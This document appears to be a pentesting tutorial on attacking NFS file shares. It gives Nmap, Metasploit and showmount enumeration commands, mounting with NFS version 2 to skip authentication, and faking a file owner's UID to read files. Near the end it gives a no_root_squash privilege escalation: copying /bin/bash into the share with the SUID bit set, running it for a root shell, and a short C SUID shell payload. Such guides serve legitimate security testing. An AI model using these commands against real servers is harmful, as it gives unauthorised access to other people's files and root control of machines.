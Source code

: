 ```yaml
---
title: NFS Pentesting Best Practices
categories: [pentesting protocols,nfs]
tags: [pentesting,nfs,best practicies]
comments: true
---
```


# NFS

<aside>
💡 NFS usually uses ports 111, 2049

</aside>

# What is NFS?

NFS (Network FileSysem) is a very stable and powerful file system for sharing storage devices of UNIX/Linux operating systems. Thanks to NFS; The same files can be accessed from multiple computers. It provides convenience in data storage. Instead of installing to the local disk for each application, it allows applications to be shared.

```bash
PORT     STATE SERVICE               VERSION
2049/tcp open  nfs    
```

# NFS Pentesting

| <img src="https://www.shodan.io/static/img/favicon.png" alt="https://www.shodan.io/static/img/favicon.png" width="20px" /> Shodan search query : |
|:-----------------------------|
| port:2049 |

## Misconfigured NFS

A lot of data is obtained in file sharing in most of the companies that are tested for network penetration.

## NFS Service Detection in Network with Nmap

```bash
nmap -n -PN -sS -T5 -p 2049 --script=nfs-showmount 10.10.x.x/24
nmap --script=nfs-ls.nse,nfs-showmount.nse,nfs-statfs.nse -p 2049 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs.png)

## Network NFS Service Detection with Metasploit

```bash
msf > use auxiliary/scanner/nfs/nfsmount
msf auxiliary(nfsmount) > set RHOSTS 10.10.x.x/24
msf auxiliary(nfsmount) > run
```

![Untitled](/assets/img/pitcures/nfs/nfs1.png)

## NFS Shares Listing With "showmount"

```bash
showmount -e 10.10.x.x
```

![Untitled](/assets/img/pitcures/nfs/nfs2.png)

## Access to discovered NFS shares

```bash
mount -t nfs 10.10.x.x:/export/home /mnt/connect_path
mount -t nfs -o vers=2 10.10.x.x:/export/home /mnt/connect_path -o nolock # You should specify to use version 2 because it doesn't have any authentication or authorization.
```

## Access to discovered NFS shares with same user UID Permissions

In the terminal we can see the shared arguments and what UID value they belong to a user.

```bash
-rwxr----- 1923 1000 1898 example.doc
```

We see that there is a document. But we may need to open this doc file with a user with an authorized user UID. First of all, let's unmount the mount we mounted with the unmount command. Then let's create a user with the same UID value in the local system.

```bash
umount /connect_path
```

Yes, we have unmounted. Now let's create a user with the same UID value.

```bash
useradd newuser
```

setting the user UID value

```bash
usermod -u 1923 newuser
```

Connecting the share to the local system again after setting the UID value.

```bash
mount -t nfs 192.168.x.x:/export/home /home/newuser/Desktop/connect_path
```

## NFS no_root_squash/no_all_squash misconfiguration PE

Read the _ **/etc/exports** _ file, if you find some directory that is configured as **no_root_squash**, then you can **access** it from **as a client** and **write inside** that directory **as** if you were the local **root** of the machine.

**no_root_squash**: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

**no_all_squash:** This is similar to **no_root_squash** option but applies to **non-root users**. Imagine, you have a shell as nobody user; checked /etc/exports file; no_all_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.****

## Privilege Escalation

Remote Exploit

If you have found this vulnerability, you can exploit it:

Mounting that directory in a client machine, and as root copying inside the mounted folder the `/bin/bash` binary and giving it SUID rights, and executing from the victim machine that bash binary.

```bash
#Attacker, as root user
mkdir /tmp/pe
mount -t nfs <IP>:<SHARED_FOLDER> /tmp/pe
cd /tmp/pe
cp /bin/bash .
chmod +s bash

#Victim
cd <SHAREDD_FOLDER>
./bash -p #ROOT shell
```

**Mounting that directory** in a client machine, and **as root copying** inside the mounted folder our come compiled payload that will abuse the SUID permission, give to it **SUID** rights, and **execute from the victim** machine that binary (you can find here some C SUID payloads).

```c
//gcc payload.c -o payload
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main(){
    setuid(getuid());
    system("/bin/bash");
    return 0;
}
```
